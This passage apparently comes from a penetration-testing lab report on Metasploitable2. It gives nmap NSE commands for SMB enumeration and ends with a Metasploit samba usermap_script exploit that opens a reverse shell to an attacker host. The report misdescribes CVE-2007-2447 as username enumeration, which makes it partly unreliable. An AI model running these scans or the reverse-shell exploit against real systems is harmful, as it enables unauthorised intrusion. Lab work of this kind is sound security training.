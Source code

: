 **Wireshark Analysis:**
Look for inter-packet delays, source ports, and fragmentation patterns to verify evasion techniques.

---

### 1.5 Service Enumeration using Nmap NSE

#### Chosen Service: SMB (Server Message Block)

**Justification:**
- Metasploitable2 runs SMB service (Samba)
- SMB is historically vulnerable with many known exploits
- Provides extensive system information (shares, users, OS details)
- Common target for lateral movement and privilege escalation
- NSE has comprehensive SMB enumeration scripts

**Enumeration Commands:**

```bash
# Discover SMB vulnerabilities
nmap --script smb-vuln* -p 445 192.168.64.23

# Enumerate shares
nmap --script smb-enum-shares -p 445 192.168.64.23

# Enumerate users
nmap --script smb-enum-users -p 445 192.168.64.23

# Get detailed OS and security information
nmap --script smb-os-discovery,smb-security-mode -p 445 192.168.64.23

# Comprehensive SMB enumeration
nmap -sV --script "smb-enum-*" -p 139,445 192.168.64.23
```

**Expected Findings:**
- SMB version (likely Samba 3.x)
- Available shares (IPC$, tmp, etc.)
- Anonymous access permissions
- User enumeration results
- Known vulnerabilities (CVE references)

**Attack Vector Based on Enumeration:**

If enumeration reveals:
1. **Anonymous Share Access:** Attacker could access shared files without authentication, potentially finding sensitive data or uploading malicious files
2. **SMB Vulnerabilities:** Metasploitable2 likely has vulnerabilities like:
   - Username enumeration (CVE-2007-2447)
   - Remote code execution via crafted SMB requests
   - MS08-067 equivalent vulnerabilities
3. **Weak Authentication:** Null sessions or weak passwords enable unauthorized access

**Exploitation Example:**
```bash
# Using Metasploit to exploit SMB
msfconsole
use exploit/multi/samba/usermap_script
set RHOSTS 192.168.64.23
set PAYLOAD cmd/unix/reverse
set LHOST 192.168.64.18
exploit
```

---